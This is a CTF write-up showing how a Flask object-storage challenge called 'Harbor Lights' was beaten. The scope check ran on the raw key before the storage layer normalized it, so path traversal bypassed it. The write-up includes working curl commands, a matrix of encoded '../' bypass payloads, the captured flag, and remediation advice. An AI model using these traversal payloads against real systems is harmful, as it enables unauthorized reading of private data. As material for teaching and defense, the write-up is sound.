

# HARBOR LIGHTS, Scope Bypass via Path Normalization (TOCTOU), My Writeup

| | |
|---|---|
| **Platform** | pwnzone (hosted CTF event) |
| **Target** | HARBOR LIGHTS ("Collection desk" object storage) |
| **Service** | Flask on **Werkzeug/3.1.9**, Python 3.11.16, HTTP, TCP/8390 (EC2) |
| **IP:Port** | `54.72.82.22:8390` |
| **Flag format** | `safctf{...}` |
| **Author** | lacmyst |
| **Date** | 2026-10-03 |
| **Outcome** | Read a private object (`finance/final.txt`) by traversing out of the authorized `public/` scope, the access check runs on the raw key, the storage adapter normalizes it afterwards. |
| **Honesty note** | I came back to this one while I was working the Backstage Ledger box. What stood out once it fell: **several traversal variants all returned the flag**, while others returned a decoy message, so this writeup documents the full payload matrix. |

---

## 1. The Short Version

Harbor Lights is a cloud object-store desk: `GET /api/objects` lists keys, `GET /api/object?key=...` fetches one. The listing only shows `public/*` keys, but the downloadable **`storage.json` leaks the full inventory**, including a key that's *not* public: **`finance/final.txt`**.

Fetching it directly is blocked (the retrieve endpoint also enforces the `public/` scope). The bug is a **time-of-check / time-of-use mismatch**: the server authorizes the **raw** key (`startswith("public/")`), but the `edge-store` adapter then **normalizes** the path. So `public/../finance/final.txt` *passes* the `public/` prefix check yet *resolves* to the private `finance/final.txt`.

**What I walked away with**

| Flag | Value | How |
|---|---|---|
| Flag | `safctf{0a7fe9c5e49d7fbe62cea634195d0adf}` | `GET /api/object?key=public/../finance/final.txt` |

---

## 1.1 Attack Chain



---

## 2. Weakness I Used

| # | What | Class | Where | Severity |
|---|---|---|---|---|
| 1 | Scope check authorizes the raw key; storage normalizes `..` afterwards | **Path Traversal / Broken Access Control (TOCTOU)** (CWE-22 / CWE-863 / CWE-367) | `/api/object?key=` | High (read any object) |
| 2 | `storage.json` discloses non-public keys | Information Exposure (CWE-200) | `/downloads/storage.json` | Medium (hands you the target) |

---

## 3. Recon

```bash
$ curl -s http://54.72.82.22:8390/api/objects
{"keys":["public/lineup.txt","public/receipts.json"]}

$ curl -s http://54.72.82.22:8390/downloads/storage.json
{"scope":"public/*","inventory":["public/lineup.txt","public/receipts.json","finance/final.txt"],"adapter":"edge-store/4"}
```
The listing is **scoped to `public/*`**, but `storage.json` shows a third object, **`finance/final.txt`**, that the listing hides. That's the target. (Always read the side-channel file, it handed us the private key name.)

Public objects fetch fine; the private one is refused:
```bash
$ curl -s 'http://54.72.82.22:8390/api/object?key=public/lineup.txt'
{"body":"The next performance begins at eight."}
$ curl -s 'http://54.72.82.22:8390/api/object?key=finance/final.txt'
{"message":"The request could not be completed.","ok":false}   # scope enforced here too
```

---

## 4. The Bug, Check the Raw Key, Resolve the Normalized One

The retrieve endpoint enforces the scope by checking the key *as sent* (`key.startswith("public/")`), but the `edge-store` adapter **collapses `..`** before the actual lookup. So a key that **textually begins with `public/`** but **normalizes out of it** defeats the check:
```bash
$ curl -s 'http://54.72.82.22:8390/api/object?key=public/../finance/final.txt'
{"body":"safctf{0a7fe9c5e49d7fbe62cea634195d0adf}"}
```

> **Flag:** `safctf{0a7fe9c5e49d7fbe62cea634195d0adf}`

---

## 5. The Full Payload Matrix (what I noticed)

Several variants work; several collapse back to a **public decoy** (which returns `lineup.txt`'s *"The next performance begins at eight."*, the tell that the path resolved *inside* `public/`); a couple are blocked outright. Documenting all of it:

| `key=` payload | Result |
|---|---|
| `finance/final.txt` | ⛔ blocked, no `public/` prefix, fails the check |
| `..%2ffinance%2ffinal.txt` | ⛔ blocked, no `public/` prefix |
| **`public/../finance/final.txt`** | ✅ **FLAG** |
| **`public/..%2ffinance%2ffinal.txt`** (encoded `/`) | ✅ **FLAG** |
| **`public%2f..%2ffinance%2ffinal.txt`** (all encoded) | ✅ **FLAG** |
| **`public%2F..%2Ffinance%2Ffinal.txt`** (upper-hex encoding) | ✅ **FLAG** |
| **`public/%2e%2e/finance/final.txt`** (encoded `..`) | ✅ **FLAG** |
| **`public/%2e%2e%2ffinance%2ffinal.txt`** | ✅ **FLAG** |
| **`public/./../finance/final.txt`** | ✅ **FLAG** |
| **`public/.%2e/finance/final.txt`** | ✅ **FLAG** |
| **`public/..//finance/final.txt`** (double slash) | ✅ **FLAG** |
| **`public/a/../../finance/final.txt`** (decoy segment, up twice) | ✅ **FLAG** |
| `public/....//finance/final.txt` | 🟡 public decoy, `....//` didn't collapse to a parent here |
| `public/../../finance/final.txt` | 🟡 public decoy, over-traversal clamped, didn't land on `finance/` |
| `public/\../finance/final.txt` | 🟡 public decoy, **backslash is not a separator** (POSIX), no traversal |
| `public/..%5cfinance%5cfinal.txt` (encoded `\`) | 🟡 public decoy, same, `\` not collapsed |
| `public/finance/final.txt` | 🟡 public decoy, no `..`, just a non-existent nested public key |

**Takeaways from the matrix:**
- Any encoding of the **forward slash** and **dots** works, because the server URL-decodes first, then normalizes `../`, so `%2e%2e`, `%2f`, upper/lowercase hex are all equivalent to literal `../`.
- **Backslashes do nothing** (`\..`, `%5c`), this is a POSIX path normalizer; `\` isn't a path separator, so those stay inside `public/` and hit the decoy.
- **Over-traversal** (`../../`) can overshoot the base and *not* land on `finance/`, so it falls back to a public/default object. You need *exactly enough* `..` to step from `public/` to the sibling `finance/` (one level), or compensate with an extra forward segment (`a/../../`).
- The **public-decoy response** (`"The next performance begins at eight."`) is a useful oracle: it means your path still resolved **inside** the allowed scope, add/adjust traversal until you get the `finance/` object instead.

---

## 6. Why It Worked & How I'd Fix It

- *Cause:* **authorize-then-normalize.** The scope check runs on the attacker-controlled *raw* key; the storage layer resolves `..` afterwards. The two disagree (TOCTOU), so a key that textually satisfies `public/` can point outside it.
- *Fix:* **normalize/canonicalize the key first, then authorize the resolved path.** Reject any key containing `..` (after decoding), resolve against the base prefix with `os.path.normpath`/`PurePosixPath` and verify the result still `startswith("public/")`. Even better: don't accept free-form paths, map a server-side allow-list of public keys to storage locations, and never disclose private keys in a world-readable `storage.json`.

---

## 7. Timeline

- `GET /api/objects` → only `public/*`; `GET /downloads/storage.json` → inventory leaks `finance/final.txt` + `scope:"public/*"`, `adapter:"edge-store/4"`.
- Direct `?key=finance/final.txt` → blocked (scope enforced on retrieve too).
- Realised the check is on the **raw** key but the adapter **normalizes** → traversal bypass.
- `?key=public/../finance/final.txt` → **flag**; mapped the full payload matrix (encodings work, backslashes don't, over-traversal misses).

---

## 8. References

- CWE-22 (Path Traversal), CWE-863 (Incorrect Authorization), CWE-367 (TOCTOU), CWE-200 (Info Exposure)
- OWASP: Path Traversal; "canonicalize before you authorize"
- URL decoding vs. path normalization ordering bugs in storage/proxy adapters

---

## 9. Appendix, One-liner

```bash
curl -s 'http://54.72.82.22:8390/api/object?key=public/../finance/final.txt'
# {"body":"safctf{0a7fe9c5e49d7fbe62cea634195d0adf}"}
```
Two lessons I'm keeping: **read the side-channel file** (`storage.json` handed me the private key name); and when a scope check guards a path, **try to normalize out of it**, encodings of `../` are equivalent, backslashes usually aren't, and a response that resolves *back inside* the allowed scope (the public "decoy" here) tells you to adjust your traversal depth, not give up.
